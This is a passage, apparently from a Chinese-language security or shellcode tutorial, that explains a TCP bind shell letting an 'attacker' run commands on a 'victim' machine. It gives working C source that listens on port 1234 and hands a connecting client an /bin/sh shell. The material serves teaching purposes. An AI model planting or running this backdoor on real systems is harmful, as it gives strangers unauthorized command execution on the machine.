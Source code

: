 上一个命令的输出显示在以下截图中：

![](img/00204.jpeg)

# TCP 绑定 shell

现在，让我们进一步做一些真正有用的事情，即构建一个 TCP 绑定 shell。

TCP 绑定 shell 用于在一台机器（受害者）上设置服务器，并且该服务器正在等待来自另一台机器（攻击者）的连接，这允许另一台机器（攻击者）在服务器上执行命令。

首先，让我们看一下 C 语言中的绑定 shell，以了解它是如何工作的：

```
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>

int main(void)
{
  int clientfd, sockfd;
  int port = 1234;
  struct sockaddr_in mysockaddr;

  sockfd = socket(AF_INET, SOCK_STREAM, 0);
  mysockaddr.sin_family = AF_INET; //--> can be represented in
  numeric  as 2
  mysockaddr.sin_port = htons(port);
  mysockaddr.sin_addr.s_addr = INADDR_ANY;// --> can be represented
  in  numeric as 0 which means to bind to all interfaces

  bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));

  listen(sockfd, 1);

  clientfd = accept(sockfd, NULL, NULL);

  dup2(clientfd, 0);
  dup2(clientfd, 1);
  dup2(clientfd, 2);
  char * const argv[] = {"sh",NULL, NULL};
  execve("/bin/sh", argv, NULL);
  return 0;
}
```
